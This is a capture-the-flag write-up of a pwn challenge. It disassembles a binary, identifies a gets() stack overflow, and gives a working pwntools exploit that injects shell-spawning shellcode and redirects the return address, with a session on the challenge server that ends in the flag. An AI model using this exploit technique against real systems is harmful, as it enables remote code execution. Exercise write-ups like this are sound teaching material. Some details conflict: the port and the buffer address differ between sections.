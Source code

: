 # HellCode

> Pwn | 200 points
--------------------------

## Problem Statement
 > Getting to the shell?? What the hellcd ..#!/bin/bash  
 > nc 13.233.99.37 1007  
 > [File](./chall)


## Analysis
* The disassembly of this program looks something like 

    > ```gdb
    > gdb$ disass main
    > Dump of assembler code for function main:
    >    0x0000000000401152 <+0>:	push   rbp
    >    0x0000000000401153 <+1>:	mov    rbp,rsp
    >    0x0000000000401156 <+4>:	sub    rsp,0x20
    >    0x000000000040115a <+8>:	mov    rax,QWORD PTR [rip+0x2eff]        # 0x404060 <stdin@@GLIBC_2.2.5>
    >    0x0000000000401161 <+15>:	mov    ecx,0x0
    >    0x0000000000401166 <+20>:	mov    edx,0x2
    >    0x000000000040116b <+25>:	mov    esi,0x0
    >    0x0000000000401170 <+30>:	mov    rdi,rax
    >    0x0000000000401173 <+33>:	call   0x401050 <setvbuf@plt>
    >    0x0000000000401178 <+38>:	mov    rax,QWORD PTR [rip+0x2ed1]        # 0x404050 <stdout@@GLIBC_2.2.5>
    >    0x000000000040117f <+45>:	mov    ecx,0x0
    >    0x0000000000401184 <+50>:	mov    edx,0x2
    >    0x0000000000401189 <+55>:	mov    esi,0x0
    >    0x000000000040118e <+60>:	mov    rdi,rax
    >    0x0000000000401191 <+63>:	call   0x401050 <setvbuf@plt>
    >    0x0000000000401196 <+68>:	lea    rdi,[rip+0xe67]        # 0x402004
    >    0x000000000040119d <+75>:	call   0x401030 <puts@plt>
    >    0x00000000004011a2 <+80>:	lea    rdi,[rip+0xe6e]        # 0x402017
    >    0x00000000004011a9 <+87>:	call   0x401030 <puts@plt>
    >    0x00000000004011ae <+92>:	lea    rdi,[rip+0x2ebb]        # 0x404070 <buf>
    >    0x00000000004011b5 <+99>:	mov    eax,0x0
    >    0x00000000004011ba <+104>:	call   0x401040 <gets@plt>
    >    0x00000000004011bf <+109>:	lea    rax,[rip+0x2eaa]        # 0x404070 <buf>
    >    0x00000000004011c6 <+116>:	and    rax,0xfffffffffffff000
    >    0x00000000004011cc <+122>:	mov    edx,0x7
    >    0x00000000004011d1 <+127>:	mov    esi,0x3e8
    >    0x00000000004011d6 <+132>:	mov    rdi,rax
    >    0x00000000004011d9 <+135>:	call   0x401060 <mprotect@plt>
    >    0x00000000004011de <+140>:	lea    rdi,[rip+0xe4d]        # 0x402032
    >    0x00000000004011e5 <+147>:	call   0x401030 <puts@plt>
    >    0x00000000004011ea <+152>:	lea    rax,[rbp-0x20]
    >    0x00000000004011ee <+156>:	mov    rdi,rax
    >    0x00000000004011f1 <+159>:	mov    eax,0x0
    >    0x00000000004011f6 <+164>:	call   0x401040 <gets@plt>
    >    0x00000000004011fb <+169>:	mov    eax,0x0
    >    0x0000000000401200 <+174>:	leave  
    >    0x0000000000401201 <+175>:	ret    
    > End of assembler dump.
    > gdb$ 
    > ```

* Let's run the program
    > ```shell
    > $ ./chall 
    > Hello There folks!
    > Gimme your shellcode here!
    > someshellcode
    > What's your name though?
    > somename
    > ```

* On running the program it ask for shellcode 
    > ```gdb
    >    0x00000000004011ae <+92>:	lea    rdi,[rip+0x2ebb]        # 0x404070 <buf>
    >    0x00000000004011b5 <+99>:	mov    eax,0x0
    >    0x00000000004011ba <+104>:	call   0x401040 <gets@plt>
    > ```
    > I think it copies the shellcode to **[rip-0x2ebb]**

* The program also asks for our name   
    > ```gdb
    >    0x00000000004011ea <+152>:	lea    rax,[rbp-0x20]
    >    0x00000000004011ee <+156>:	mov    rdi,rax
    >    0x00000000004011f1 <+159>:	mov    eax,0x0
    >    0x00000000004011f6 <+164>:	call   0x401040 <gets@plt>
    > ```
    > We can exploit the above gets call and overwrite the return address so 
    >that it points to our shellcodde


## Solution

* First Let's findout the addres **[rip+0x2ebb]** points to
    > ```gdb
    > gdb$ break *0x00000000004011ae
    > gdb$ ni  
    > gdb$ x/x $rip+0x2ebb
    > 0x404070:	0x00000000
    > ```
    > We get the address where our shellcode will be written it is **0x404069**
    > because we are working with a 64 bit binary we will take the address as
    > **0x0000000000404070**

* Now we need to overwrite the return address 
    > ```
    > Stack map
    > [rbp-0x20]    [ -- -- -- -- ]   <-----Gets will start wriring from here
    > [rbp-0x1c]    [ -- -- -- -- ]
    > [rbp-0x18]    [ -- -- -- -- ]
    > [rbp-0x14]    [ -- -- -- -- ]
    > [rbp-0x10]    [ -- -- -- -- ]
    > [rbp-0xc ]    [ -- -- -- -- ]
    > [rbp-0x8 ]    [ -- -- -- -- ]
    > [rbp-0x4 ]    [ -- -- -- -- ]
    > [   bp   ]    [ -- -- -- -- ]
    > [        ]    [ -- -- -- -- ]
    > [   ret  ]    [ -- -- -- -- ]
    > [        ]    [ -- -- -- -- ]
    > ```

    > First 32 characters will fill up the buffer next 8 characters will overwrite the 
    previous base pointer address and then another 8 characters will overwrite 
    the return address

* Our target is to fill the stack so that it looks like

    > ```
    > Stack map
    > [rbp-0x20]    [ 41 41 41 41 ]   <-----Gets will start wriring from here
    > [rbp-0x1c]    [ 41 41 41 41 ]
    > [rbp-0x18]    [ 41 41 41 41 ]
    > [rbp-0x14]    [ 41 41 41 41 ]
    > [rbp-0x10]    [ 41 41 41 41 ]
    > [rbp-0xc ]    [ 41 41 41 41 ]
    > [rbp-0x8 ]    [ 41 41 41 41 ]
    > [rbp-0x4 ]    [ 41 41 41 41 ]
    > [   bp   ]    [ 42 42 42 42 ]
    > [        ]    [ 42 42 42 42 ]
    > [   ret  ]    [ 00 00 00 00 ]
    > [        ]    [ 70 40 40 00 ]
    > ```
    > Yes that last value  is intensionally flipped because of the litile 
    >endianess

## Exploit
* [**get2_flag.py**](./get_flag2.py)
  >  ```python
  >  import pwn
  >  import sys
  >  pwn.context.arch = 'amd64'
  >  shell = pwn.asm(pwn.shellcraft.linux.sh()) + '\n'
  >  ret = '\x00\x00\x00\x00\x00\x40\x40\x70' [::-1]
  >  init = 'A' * 32 + 'B' * 8 + ret+'\n'
  >  payload = shell + init
  >  print(payload)
  >  ```
  > The above script is in python2 if you need python3 implementation check 
  > [get_flag.py](./get_flag.py)  
  > originally i solved it in python3  
  > run [get_flag.sh](./get_flag.sh) to get the flag instantly


* On local machine
    > ```shell
    >  $ ( python get_flag2.py;cat)|./chall
    > ```
* On Shellserver

    > ```shell
    >$ (python get_flag2.py;cat) | nc 13.233.99.37 1009
    > Hello There folks!
    > Gimme your shellcode here!
    > What's your name though?
    > ls
    > chall
    > flag
    > run.sh
    > cat flag
    > inctf{0n3_H3ll_0f_4_c0d3!}
    > exit
    > ```


## Flag 
`inctf{0n3_H3ll_0f_4_c0d3!}
`

